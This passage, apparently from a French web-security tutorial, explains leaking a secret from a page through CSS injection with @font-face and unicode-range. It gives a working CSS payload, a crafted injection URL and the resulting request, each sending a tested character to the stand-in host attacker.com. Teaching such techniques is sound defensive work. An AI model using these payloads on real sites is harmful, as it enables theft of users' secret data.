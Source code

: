 L'attaquant souhaite évidemment récupérer le contenu de l'élément `<span></span>` qui contient ce secret. Pour cela, il va utiliser la règle `@font-face` ainsi qu'un code unicode grâce au descripteur `unicode-range` représentant le caractère à tester. Il faudra également spécifier une URL distante permettant de récupérer le caractère identifié ainsi qu'une police d'écriture permettant de l'appliquer sur l'élément HTML ciblé :

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  @font-face {
    // Nom de la police d'écriture (arbitraire)
    font-family: attack;
    
    // URL du serveur de l'attaquant
    // Permet de savoir quel caractère a été récupéré
    src: url(https://attacker.com/?leak=a); 
    
    // Test de la présence du caractère spécifié en unicode
    unicode-range: U+0061;
  }
  
  // Element HTML ciblé par l'attaque
  span {
    // Applique la police d'écriture
    font-family: attack;
  }
</style>
```
{% endcode %}

Par exemple, si l'attaquant tente de savoir si le secret contient le caractère "s", le lien à fournir à la victime est le suivant :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=s);unicode-range:U%2b0073}span{font-family:attack;}
```
{% endcode %}

{% hint style="warning" %}
Attention à bien encoder le caractère "+" par son équivalent URL encodée "%2b".
{% endhint %}

{% code overflow="wrap" %}
```http
GET /?leak=s HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}
